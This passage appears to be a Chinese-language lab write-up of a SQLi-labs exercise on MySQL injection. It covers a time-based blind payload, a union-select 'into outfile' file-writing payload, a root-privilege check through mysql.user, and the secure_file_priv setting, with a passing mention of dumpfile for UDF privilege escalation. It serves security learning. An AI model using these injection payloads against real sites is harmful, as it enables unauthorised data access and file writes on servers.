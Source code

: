 ```
id=1' )) and sleep(if(ascii(substr(database(),1,1))=100,5,0)) --+
```

其后步骤省略


# 数据库导出文件 into outfile
`into outfile` 和` into dumpfile`区别
>若我们想把一个可执行2进制文件用into outfile函数导出，导出后就会被破坏.
>因为into outfile函数会在行末端写入新行，并且会会转义换行符这样的话这个2进制可执行文件就会被破坏。
>这时候我们用into dumpfile 就能导出一个完整能执行的2进制文件，into dumpfile 函数不对任何列或行进行终止，也不执行任何转义处理。
>在udf提权的时候用到的就是dumpfile。

## 数据库文件导出
直接使用`into outfile`导出文)

```
?id=1')) union select 1,2,3 from myql.user into outfile "E:\\11.txt" --+
// 在使用这个语句之前,已经知道原语句字段数是3
```

回显页面报错

**原因一:权限不够**
需要root权限(通常其他用户没有创建存储过程的权限)才能对数据库读写操作.
测试是否有root权限

```
?id=1')) and (select count(*) from mysql.user)>0 --+;  //通常有查询mysql.user表的权限,就是root用户
```
回显页面,正常,判断有root权限

**原因二:必须在指路径输出**
> `secure_file_priv`这个变量用来限制数据导入和导出,例如`load data`,`into outfile`,`load_file()函数`,这些操作都需要用户有file权限
> 如果参数为空,这个变量没有效果
> 如果参数是目录名,mysql服务器只允许在这个目录下导入导出,这个目录必须存在,mysql不会创建它
> 如果参数为null,服务器禁止导入导出操作
> 这个参数在`MySql 5.7.6`以后的版本引入


可以通过报错回显得到路径,但是本题目没有详细回显,只能猜正确目录是什么
这里不猜了,我们直接切换到服务器端口查看
mysql命令行输入
```
show variables like '%secure%'
```
查询的回显`secure_file_priv`值为空(这里和网上的朋友过程讲解不一样)
于是为了完成less,我们在服务端手动添加`secure_file_priv`
打开mysql路径下的`my.ini`
添加一个变量`secure_file_priv="C:/sqlfile/"`并且确保这个路径存在.
重启数据库然后再次执行命令查看变量

```
mysql> show variables like '%secure%';
+------------------+-------------+
| Variable_name    | Value       |
+------------------+-------------+
| secure_auth      | OFF         |
| secure_file_priv | C:\sqlfile\ |
+------------------+-------------+
```
变量存在了

